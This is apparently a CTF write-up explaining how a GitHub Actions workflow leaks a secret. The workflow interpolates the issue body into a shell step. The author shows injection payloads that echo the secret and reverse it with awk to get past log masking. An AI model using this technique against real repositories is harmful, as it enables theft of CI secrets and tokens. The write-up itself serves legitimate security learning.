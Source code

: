 # Comments (500 points) - Github

You must solve the first challenge to get the answer, all you need is inside the Loby.

![Alt text](images/image.png)

This problem is common in github CTF, hacking the repository with environment variables from github workflows/actions, to uncover the secrets environment variables.

Viewing the workflow yaml file we can see the following:

```yaml
name: Parse review of teacher

on:
  issues:
    types: [opened, edited]

jobs:
  parse-review:
    runs-on: ubuntu-latest
    steps:
      - name: Extract Teacher name and review from issue body
        id: extract-review
        env: 
          db_pass: ${{ secrets.FLAG }} # Do we still need this to write to the DB?
        run: |
          TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
          REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
          echo "::set-output name=teacher::$TEACHER"
          echo "::set-output name=review::$REVIEW"
      - name: Comment on issue
        uses: actions/github-script@v5
        with:
          github-token: ${{secrets.GITHUB_TOKEN}}
          script: |
            const issueComment = {
              owner: context.repo.owner,
              repo: context.repo.repo,
              issue_number: ${{ github.event.issue.number }},
              body: `Thank you for reviewing ${'{{ steps.extract-review.outputs.teacher }}'}! Your review was: 
              ${'{{ steps.extract-review.outputs.review }}'}`
            };
            github.rest.issues.createComment(issueComment);
```

So we can see that the flag is in the secrets environment variable, but we can't access it because we don't have permissions to write, so we need to find a way to read the secrets variable with `db_pass` variable.

I see a delicious vuln in the workflow, the `github.event.issue.body` parses the body of the issue, so we can write a payload for command injection in the body of the issue to read the secrets variable.

```bash
TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
echo "::set-output name=teacher::$TEACHER"
echo "::set-output name=review::$REVIEW"
```

We can write the following payload:

```bash
'); echo $db_pass; # Review: '
```
Will be executed as:

```bash
TEACHER=$(echo ''); echo $db_pass; # Review: '
```

![Alt text](images/image3.png)

This first test will give us a glimpse of mask `***` LMAO since the secrets variable is protected. To unmask the flag we need to reverse the string with basic `awk` for strings manipulations.

![Alt text](images/image-4.png)

```bash
'); echo "$db_pass" | awk '{ for(i=length;i!=0;i--) printf "%s",substr($0,i,1); print "" }'; # Review: '
```

![Alt text](images/image1.png)

**FLAG:** EKO{m0ve_y0uR_b0dy}
